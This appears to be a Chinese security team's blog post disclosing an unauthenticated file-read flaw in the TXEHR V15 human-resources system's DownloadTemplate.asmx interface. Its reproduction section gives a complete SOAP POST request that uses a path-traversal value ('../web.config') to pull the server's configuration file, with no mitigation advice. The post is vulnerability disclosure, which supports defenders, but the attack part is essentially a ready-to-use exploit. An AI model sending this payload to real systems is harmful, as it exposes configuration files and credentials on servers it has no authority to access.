 #  同享人力资源管理系统-TXEHR V15 DownloadTemplate 文件读取漏洞   
原创 R0seK1ller  蟹堡安全团队   2024-08-02 22:41  
  
## 1. 漏洞描述  
  
	  
同享人力资源管理系统-TXEHR V15 DownloadTemplate.asmx 接口处存在文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zUcr0ib9h7OSEfxqyFzVgPt5j3I7dr0mzcic1wmctDeCtS2OvPOuEA4sPZUpGHxia3xXMfEM8LowVHhA/640?wx_fmt=png&from=appmsg "")  
## 2. 漏洞复现  
```
POST /Service/DownloadTemplate.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: 333
SOAPAction: "http://tempuri.org/DownloadFile"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><DownloadFile xmlns="http://tempuri.org/"><path>../web.config</path></DownloadFile></soap:Body></soap:Envelope>

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zUcr0ib9h7OSEfxqyFzVgPt5op8wGaI4BANJRCvicRHsOqTsPRRApx9YT78S63XAibHLcpZTNb2YrVdQ/640?wx_fmt=png&from=appmsg "")  
  
  
